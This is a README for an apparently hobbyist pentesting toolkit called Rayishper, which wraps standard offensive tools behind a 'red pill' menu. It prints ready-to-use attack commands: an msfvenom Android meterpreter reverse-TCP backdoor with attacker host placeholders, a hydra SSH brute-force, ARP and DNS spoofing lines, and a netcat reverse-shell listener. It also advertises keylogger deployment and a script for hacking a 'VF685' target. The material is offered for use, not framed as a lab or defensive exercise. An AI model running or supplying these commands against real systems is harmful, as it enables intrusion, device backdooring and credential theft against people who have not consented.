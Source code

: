 # Rayishper Pentesting Toolkit

Rayishper is a customizable and automated toolkit designed for cybersecurity enthusiasts and professionals. Originally inspired by manual note-taking on cybersecurity tasks, Rayishper automates a variety of common pentesting activities to streamline your workflow.

## Table of Contents

- [Introduction](#introduction)
- [Features](#features)
- [Installation](#installation)
- [Dependencies](#dependencies)
- [Usage](#usage)
- [Commands Overview](#commands-overview)
- [License](#license)

## Introduction

Rayishper started as a simple note-taking practice to assist with various cybersecurity tasks. It has now evolved into an automated toolkit that can perform a wide range of pentesting activities such as password cracking, network sniffing, social engineering, and more.

## Features

- **Password Cracking:** Automate brute-force attacks using tools like John the Ripper and aircrack-ng.
- **Network Attacks:** Perform ARP spoofing, DNS spoofing, port scanning, and packet sniffing.
- **Payload Generation:** Create custom payloads for Android devices using Metasploit.
- **Social Engineering:** Launch social engineering attacks using the SET toolkit.
- **File and Directory Management:** Automate common file and directory operations like viewing, deleting, and scanning.
- **Script Automation:** Convert repetitive manual tasks into automated scripts.

## Installation

Clone the Rayishper repository:

```bash
git clone https://github.com/your-repo/rayishper.git
```

```bash
cd rayishper
```

## Make the script executable:
```bash
chmod +x rayishper.py
```

## Install the required dependencies:
```bash
sudo apt-get update
```
```bash
sudo apt-get install python3 python3-pip metasploit-framework nmap hydra tcpdump aircrack-ng john setoolkit
```
**Ensure that all tools used in the script are correctly installed and accessible in your PATH.**

## Dependencies: 
The Rayishper script relies on the following tools and libraries:

- **Python-3:** The core programming language used in the script.
- **Metasploit Framework:** For payload generation, reverse shell listeners, and exploitation.
- **nmap:** For network scanning and discovery.
- **Hydra:** For brute-forcing SSH logins.
- **Tcpdump:** For packet sniffing and network analysis.
- **Aircrack ng:** For wireless network cracking.
- **John the Ripper:** For password cracking.
- **Social Engineering Toolkit (SET):** For social engineering attacks.

## Usage
## To run Rayishper:
```bash 
./rayishper.py 
 ```

## Main Menu
When you start the script, you'll be prompted with the following options:

Hello Neo, what's the magic word?: Type "red pill" to access the main menu.
Main Menu Options: Choose from various pentesting actions such as deploying keyloggers, scanning networks, or generating payloads.
Commands Overview
Below is a summary of the main commands used within Rayishper:

## VF685 Hack
Description: Automate hacking a specific VF685 target.
Command: 
```bash 
python3 VF685.py
```

## Keylogger Deployment
Description: Start a keylogger that logs keystrokes to a file.
Command:
```bash 
 python3 keylog.py
```

## Payload Creation
Description: Generate a custom Android payload using Metasploit.
Command: 
```bash 
msfvenom -p android/meterpreter/reverse_tcp LHOST={lhost} LPORT={lport} R> {location}/{Backdoor_name}
```

## SSH Brute-Force
Description: Perform a brute-force attack on SSH login.
Command: 
```bash
hydra -l {username} -P {wordlist} ssh://{target_ip}
```

## Network Scanning
Description: Scan a target IP for open ports and services.
Command: 
```bash
nmap -sV {target_ip}
```

## ARP Spoofing
Description: Perform ARP spoofing to intercept traffic.
Command: 
```bash
sudo arpspoof -i eth0 -t {target_ip} -r {gateway_ip}
```

## Reverse Shell Listener
Description: Start a netcat listener for reverse shells.
Command: 
```bash
nc -lvnp {lport}
```

## DNS Spoofing
Description: Spoof DNS responses on a network.
Command: 
```bash
sudo dnsspoof
```

## License
This project is open-source and available under the 
```bash 
MIT License.
```